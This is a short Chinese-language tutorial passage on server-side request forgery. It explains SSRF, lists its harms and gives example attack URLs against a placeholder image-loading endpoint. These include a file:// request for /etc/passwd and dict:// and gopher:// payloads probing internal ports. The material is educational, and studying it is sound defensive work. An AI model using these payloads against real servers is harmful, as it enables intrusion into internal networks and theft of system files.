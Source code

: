 ## SSRF
### 1、Server-Side Request Forgery
![image](https://github.com/498946975/Security/blob/master/images/ssrf_01.png)
```yaml
1、黑客通过访问内网的web服务器，控制内网服务
2、通过中间的Web服务器，作为跳板，攻击内网其他服务
```
### 2、危害
```yaml
1、扫描内网开放服务
2、向内部任意主机的任意端口发送payload来攻击内网服务
3、DOS攻击(请求大文件，始终保持连接Keep-Alive Always) ，最后使网站功能瘫痪
4、攻击内网的web应用，例如直接SQL注入、XSS攻击等
5、利用file、gopher、dict协议读取本地文件、执行命令等
```
### 3、漏洞举例
某网站有一个在线加载功能可以把指定的远程图片加载到本地，功能链接如下:
```yaml
http://www.xxx.com/image.php?image=http://www.xxc.com/a.jpg
```
以上链接的image=http://www.xxc.com/a.jpg 参数，是服务器请求的，不是客户端请求的
### 4、攻击举例
```yaml
http://www.xxx.com/image.php?image=http://127.0.0.1:22
http://www.xxx.com/image.php?image=file:///etc/passwd （读etc/passwd文件）
http://www.xxx.com/image.php?image=dict://127.0.0.1:22/data:data2 (dict可以向服务端口请求 data data2)
http://www.xxx.com/image.php?image=gopher://127.0.0.1:2233/_test (向2233端口发送数据test, 同样可以发送POST请求)
......
```